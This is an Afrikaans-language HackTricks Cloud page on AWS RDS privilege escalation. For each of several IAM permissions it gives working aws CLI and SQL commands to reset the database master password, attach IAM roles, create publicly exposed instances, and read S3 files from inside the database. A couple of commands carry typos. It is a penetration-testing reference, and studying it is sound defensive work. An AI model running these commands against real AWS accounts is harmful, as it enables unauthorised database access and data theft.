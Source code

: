 # AWS - RDS Privesc

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## RDS - Relational Database Service

Vir meer inligting oor RDS, kyk na:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Met daardie toestemming kan 'n aanvaller die wagwoord van die hoofgebruiker **verander**, en die aanmelding binne die databasis:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
Jy sal in staat moet wees om **kontak te maak met die databasis** (hulle is gewoonlik slegs toeganklik van binne netwerke).
{% endhint %}

**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

### rds-db:connect

Volgens die [**dokumentasie**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) kan 'n gebruiker met hierdie toestemming verbind met die DB-instansie.

### Misbruik RDS Role IAM-toestemmings

#### Postgresql (Aurora)

{% hint style="success" %}
As jy **`SELECT datname FROM pg_database;`** hardloop en 'n databasis genaamd **`rdsadmin`** vind, weet jy dat jy binne 'n **AWS postgresql databasis** is.
{% endhint %}

Eerstens kan jy nagaan of hierdie databasis gebruik is om enige ander AWS-diens te benader. Jy kan dit nagaan deur na die geïnstalleerde uitbreidings te kyk:

```sql
SELECT * FROM pg_extension;
```

As jy iets soos **`aws_s3`** vind, kan jy aanneem dat hierdie databasis **toegang tot S3 het** (daar is ander uitbreidings soos **`aws_ml`** en **`aws_lambda`**).

Verder, as jy toestemming het om **`aws rds describe-db-clusters`** uit te voer, kan jy sien of die **kluster enige IAM Role geheg het** in die veld **`AssociatedRoles`**. As daar enige is, kan jy aanneem dat die databasis **voorberei is om ander AWS-diens te gebruik**. Gebaseer op die **naam van die rol** (of as jy die **toestemmings** van die rol kan kry), kan jy **raai** watter ekstra toegang die databasis het.

Om **'n lêer binne 'n emmer te lees**, moet jy die volledige pad weet. Jy kan dit lees met:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

As jy **rou AWS-legitimasie** het, kan jy dit ook gebruik om toegang tot S3-data te verkry met:

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql **hoef nie enige parametergroepveranderlike te verander** om toegang tot S3 te hê nie.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Binne 'n mysql, as jy die navraag **`SELECT User, Host FROM mysql.user;`** uitvoer en daar is 'n gebruiker genaamd **`rdsadmin`**, kan jy aanneem dat jy binne 'n **AWS RDS mysql-db** is.
{% endhint %}

Voer binne die mysql **`show variables;`** uit en as die veranderlikes soos **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** waardes het, kan jy aanneem dat die databasis gereed is om toegang tot S3-data te hê.

Ook, as jy toestemming het om **`aws rds describe-db-clusters`** uit te voer, kan jy nagaan of die groep enige **geassosieerde rol** het, wat gewoonlik toegang tot AWS-diens beteken.

Nou, om 'n lêer binne 'n emmer te **lees**, moet jy die volledige pad weet. Jy kan dit lees met:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

'n Aanvaller met die toestemmings `rds:AddRoleToDBCluster` en `iam:PassRole` kan **'n gespesifiseerde rol by 'n bestaande RDS-instansie voeg**. Dit kan die aanvaller in staat stel om **toegang te verkry tot sensitiewe data** of die data binne die instansie te wysig.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Potensiële Impak**: Toegang tot sensitiewe data of ongemagtigde wysigings aan die data in die RDS-instantie.\
Let daarop dat sommige DB's addisionele konfigurasies vereis, soos Mysql, wat die rol ARN moet spesifiseer in die parametergroepe ook.

### `rds:CreateDBInstance`

Net met hierdie toestemming kan 'n aanvaller 'n **nuwe instansie binne 'n bestaande groep** skep wat 'n **IAM-rol** aangeheg het. Hy sal nie in staat wees om die hoofgebruiker se wagwoord te verander nie, maar hy mag dalk die nuwe databasisinstansie aan die internet blootstel:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Toets
{% endhint %}

'n Aanvaller met die toestemmings `rds:CreateDBInstance` en `iam:PassRole` kan **'n nuwe RDS-instansie skep met 'n gespesifiseerde rol wat aangeheg is**. Die aanvaller kan dan potensieel **toegang verkry tot sensitiewe data** of die data binne die instansie wysig.

{% hint style="warning" %}
Sommige vereistes van die rol/instansie-profiel om aan te heg (vanaf [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Die profiel moet in jou rekening bestaan.
* Die profiel moet 'n IAM-rol hê wat Amazon EC2 toestemming het om aan te neem.
* Die instansie-profielnaam en die geassosieerde IAM-rolnaam moet begin met die voorvoegsel `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potensiële Impak**: Toegang tot sensitiewe data of ongemagtigde wysigings aan die data in die RDS-instantie.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

'n Aanvaller met die toestemmings `rds:AddRoleToDBInstance` en `iam:PassRole` kan **'n gespesifiseerde rol by 'n bestaande RDS-instantie voeg**. Dit kan die aanvaller in staat stel om **toegang tot sensitiewe data** te verkry of die data binne die instantie te wysig.

{% hint style="warning" %}
Die DB-instantie moet buite 'n groep wees vir hierdie aanval.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potensiële Impak**: Toegang tot sensitiewe data of ongemagtigde wysigings aan die data in die RDS-instantie.

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>
